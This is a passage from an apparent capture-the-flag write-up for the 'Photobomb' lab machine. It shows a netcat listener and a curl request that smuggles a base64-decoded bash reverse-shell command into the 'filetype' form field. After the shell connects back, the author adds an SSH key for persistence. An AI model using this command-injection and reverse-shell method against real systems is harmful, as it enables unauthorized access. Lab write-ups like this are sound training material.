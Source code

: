 The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's send a request to Photobomb to execute our payload.

```sh
❯ curl -s -o "/dev/null" -H "Authorization: Basic cEgwdDA6YjBNYiE=" "http://photobomb.htb/printer" -X "POST" --data-urlencode "photo=voicu-apostol-MWER49YaD-M-unsplash.jpg" --data-urlencode "filetype=jpg; /bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i" --data-urlencode "dimensions=3000x2000"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.182] 48052
<SNIP>
wizard@photobomb:~/photobomb$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Photobomb. This way, I'll have a much more
stable shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `wizard`.

### Architecture

What is Photobomb's architecture?

```sh
wizard@photobomb:~$ uname -m
```

```
x86_64
```

